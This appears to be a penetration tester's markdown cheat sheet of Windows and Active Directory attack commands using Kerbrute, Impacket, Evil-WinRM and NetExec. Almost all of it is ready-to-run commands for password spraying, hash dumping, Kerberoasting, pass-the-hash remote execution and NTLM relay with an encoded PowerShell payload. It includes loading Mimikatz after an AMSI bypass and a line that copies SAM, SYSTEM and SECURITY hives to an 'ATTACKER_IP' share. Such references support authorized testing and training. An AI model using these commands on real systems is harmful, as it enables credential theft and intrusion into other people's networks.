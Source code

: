 ### Kerbrute
Password spraying:
`.\kerbrute_linux_arm64 passwordspray -d $domain.com $usersFile "$password"`
- requires kerbrute to be installed - not on kali by default. See [PopMyKali](https://github.com/cagrigsby/PopMyKali/blob/main/jumpstart.sh) repo. 

### Impacket
```
impacket-smbclient [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share

impacket-lookupsid [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target

impacket-services [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration

impacket-secretsdump [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target
impacket-secretsdump -sam '/path/to/SAM' -system '/path/to/SYSTEM' LOCAL


impacket-GetUserSPNs [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS

impacket-GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #AS-REProasting, need to provide usernames list

##RCE
impacket-psexec test.local/john:password123@10.10.10.1
impacket-psexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-wmiexec test.local/john:password123@10.10.10.1
impacket-wmiexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-smbexec test.local/john:password123@10.10.10.1
impacket-smbexec -hashes lmhash:nthash test.local/john@10.10.10.1

impacket-atexec test.local/john:password123@10.10.10.1 <command>
impacket-atexec -hashes lmhash:nthash test.local/john@10.10.10.1 <command>
```
You can save SAM, SYSTEM, and SECURITY all at once with:
`impacket-reg $domain/$user:$password@$target backup -o '\\ATTACKER_IP\someshare'`
- must start `impacket-smbserver` first

#### NTLM Relay
`sudo impacket-ntlmrelayx --no-http-server -smb2support -t $targetIP -c "powershell -enc JABjAGwAaQ..."
- We receive an authentication request on our machine and essentially re-route it to a different machine (`$targetIP`) so that's it's executed there. 

#### mssqlclient
`impacket-mssqlclient $user:$pass@$target -windows-auth`
- This is for accessing the db, not code execution (unless you enable xp_cmdshell)

#### psexec 

#### wmiexec
- `impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@$target (can be 0/24)
	- Requires an SMB connection through the firewall, the Windows File and Printer Sharing feature must be enabled, and the admin share called ADMIN$ must be available. 

### Evil WinRM
```
##winrm service discovery
nmap -p5985,5986 <IP>
5985 - plaintext protocol
5986 - encrypted

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> #not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```


### NXC
Help
`nxc smb --help` for SMB

Can add `| grep +` to only return positive results

Can add `--users`, `--shares`, `--loggedon-users`, `--groups`, `-M spider_plus --share $share`

Password spraying:
- `nxe smb $IP -u users.txt -p 'password' -d domain.com --continue-on-success`
	- `-u` for either $user or $userfile, same with `-p`. 
	- can also do `0/24` for the whole domain
	- `--pass-pol` to get the password policy

Pass the hash
`nxe smb $IP -u $user -H $NTLMHash --local-auth`
- can append `--sam` at the end if we get a `Pwn3d!`
- or `--lsa` 
- or `--shares`

Modules 
`nxe smb $IP -u $user -H $NTLMHash --local-auth -M $module`
- such as `lsassy`


